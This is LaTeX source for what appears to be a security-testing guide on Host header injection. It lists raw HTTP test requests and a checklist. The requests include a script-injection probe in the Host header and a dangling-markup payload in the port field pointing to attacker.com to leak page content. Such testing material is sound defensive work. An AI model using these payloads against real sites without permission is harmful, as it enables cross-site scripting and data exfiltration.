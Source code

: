\documentclass[12pt,a4paper]{article}
\begin{document}
\subsection{Arbitrary Host Header Testing}
\begin{lstlisting}[caption=Basic Test Suite]
# Test 1: Arbitrary domain
GET / HTTP/1.1
Host: arbitrary.com

# Test 2: Different case
GET / HTTP/1.1
Host: VULNERABLE.COM

# Test 3: Localhost
GET / HTTP/1.1
Host: localhost

# Test 4: IP address
GET / HTTP/1.1
Host: 127.0.0.1

# Test 5: Invalid characters
GET / HTTP/1.1
Host: vulnerable.com<script>alert(1)</script>
\end{lstlisting}

\subsection{Checklist}
\begin{checklistbox}
 Send request with arbitrary domain
\end{checklistbox}
\begin{checklistbox}
 Observe response status (200, 400, 403, 404)
\end{checklistbox}
\begin{checklistbox}
 Check if domain is reflected in response
\end{checklistbox}
\begin{checklistbox}
 Test with case variations
\end{checklistbox}
\begin{checklistbox}
 Test with localhost and IP addresses
\end{checklistbox}
\begin{checklistbox}
 Test with special characters
\end{checklistbox}

\section{Validation Bypass Tests}

\subsection{Port Manipulation}
\begin{lstlisting}[caption=Port Injection Tests]
# Numeric port
GET / HTTP/1.1
Host: vulnerable.com:9999

# Non-numeric port
GET / HTTP/1.1
Host: vulnerable.com:malicious

# Port with injection
GET / HTTP/1.1
Host: vulnerable.com:'<a href="//attacker.com/?
\end{lstlisting}
\end{document}
